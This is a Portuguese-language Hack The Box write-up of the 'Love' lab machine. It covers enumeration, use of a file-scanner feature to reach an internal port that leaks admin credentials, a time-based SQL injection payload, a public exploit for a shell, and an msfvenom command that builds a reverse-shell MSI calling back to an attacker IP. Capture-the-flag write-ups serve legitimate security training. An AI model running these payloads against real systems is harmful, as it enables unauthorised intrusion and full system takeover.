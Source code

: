 Enumeração de serviços:
![[Write-up/Hack The Box/Love/img/Pasted image 20240305233250.png]]![[Write-up/Hack The Box/Love/img/Pasted image 20240305233312.png]]
Através do Nmap, foi possível identificar um subdomínio:
![[Write-up/Hack The Box/Love/img/Pasted image 20240305233751.png]]
Ao adicionar o domínio no `/etc/hosts` e navegar pelo site, descobrimos uma ferramenta chamada Free File Scanner, com um menu de demonstração onde é possível indicar uma URL, possívelmente para que o arquivo na URL seja escaneado.
![[Write-up/Hack The Box/Love/img/Pasted image 20240305234009.png]]
Vamos fazer um teste criando um arquivo TXT com a palavra Teste, abrir um servidor HTTP na máquina atacante e indicar esse arquivo no site alvo.
![[Write-up/Hack The Box/Love/img/Pasted image 20240305234110.png]]
![[Write-up/Hack The Box/Love/img/Pasted image 20240305234128.png]]
Ao clicar em Scan file, percebemos que o conteúdo do arquivo de teste foi exibido na página.
![[Write-up/Hack The Box/Love/img/Pasted image 20240305234208.png]]
Vamos então tentar inserir um payload em PHP para executar comandos no alvo.
A página não executa o payload.
Pesquisando novamente sobre o sistema de votação utilizado na página principal, descobrimos que a página tem uma possível vulnerabilidade de SQLi. Vamos testar com o payload `' AND (SELECT 2487 FROM (SELECT(SLEEP(5)))WYpt) AND 'hBVQ'='hBVQ`.
![[Write-up/Hack The Box/Love/img/Pasted image 20240313224446.png]]
A página demorou 5 segundo pra responder, indicando que o nosso payload funcionou.![[Write-up/Hack The Box/Love/img/Pasted image 20240314004011.png]]
Voltando ao Free File Scan, tentamos acessar as portas do host através do IP interno e descobrimos um usuário e senha na porta 5000:
![[Write-up/Hack The Box/Love/img/Pasted image 20240317161625.png]]
`admin:@LoveIsInTheAir!!!!`
Com o login encontrado, conseguimos acessar o painel administrativo:
![[Write-up/Hack The Box/Love/img/Pasted image 20240317162335.png]]
Existe um exploit público da versão instalada, fizemos algumas modificações e executamos o exploit, pegando assim a shell da máquina alvo:
https://www.exploit-db.com/exploits/49445
![[Write-up/Hack The Box/Love/img/Pasted image 20240317164712.png]]

Identificação do sistema operacional:
![[Write-up/Hack The Box/Love/img/Pasted image 20240317164944.png]]

Ao enumerar as possível vulnerabilidades do sistema com o winPEAS, descobrimos que a configuração AlwaysInstallElevated está habilitada no alvo.
![[Write-up/Hack The Box/Love/img/Pasted image 20240317171714.png]]
Essa vulnerabilidade permite que qualquer usuário rode arquivos MSI com privilégios elevados, sendo assim, montamos um payload com msfvenom e enviamos para o alvo.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.9 LPORT=4321 -a x64 --platform Windows -f msi -o evil.msi
```
Ao executar, recebemos a shell como administrador:
![[Write-up/Hack The Box/Love/img/Pasted image 20240317171911.png]]